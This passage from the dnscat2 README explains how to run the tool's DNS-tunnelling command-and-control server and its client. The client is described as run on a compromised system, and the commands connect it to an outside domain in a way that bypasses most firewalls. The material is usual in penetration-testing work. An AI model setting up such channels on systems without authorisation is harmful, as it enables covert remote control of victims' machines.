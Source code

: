 Before we talk about how to specifically use the tools, let's talk about
how dnscat is structured. The dnscat tool is divided into two pieces: a
client and a server. As you noticed if you went through the compilation,
the client is written in C and the server is in Ruby.

Generally, the server is run first. It can be long lived, and handle as
many clients as you'd like. As I said before, it's basically a C&C
service.

Later, a client is run, which opens a session with the server (more on
sessions below). The session can either traverse the DNS hierarchy
(recommended, but more complex) or connect directly to the server.
Traversing the DNS hierarchy requires an authoritative domain, but will
bypass most firewalls. Connecting directly to the server is more
obvious for several reasons.

### Running a server

The server - which is typically run on the authoritative DNS server for
a particular domain - is designed to be feature-ful, interactive, and
user friendly. It's written in Ruby, and much of its design is inspired
by Metasploit and Meterpreter.

If you followed the compilation instructions above, you should be able
to just run the server:

    $ ruby ./dnscat2.rb skullseclabs.org

Where "skullseclabs.org" is your own domain. If you don't have an
authoritative DNS server, just leave it off and the server will only
respond to queries sent directly to it.

That should actually be all you need! Other than that, you can test it
using the client's --ping command on any other system, which should be
available if you've compiled it:

    $ ./dnscat --ping skullseclabs.org

If the ping succeeds, your C&C server is probably good! If you ran the
DNS server on a different port, or if you need to use a custom DNS
resolver, you can use the --dns flag in addition to --ping:

    $ ./dnscat --dns server=8.8.8.8 --ping skullseclabs.org

    $ ./dnscat --dns port=53531,server=localhost --ping skullseclabs.org

### Running a client

The client - which is typically run on a system after compromising it -
is designed to be simple, stable, and portable. It's written in C and
has as few library dependencies as possible, and compiles/runs natively
on Linux, Windows, Cygwin, FreeBSD, and Mac OS X.

The client is given the domain name on the commandline, for example:

    ./dnscat2 skullseclabs.org
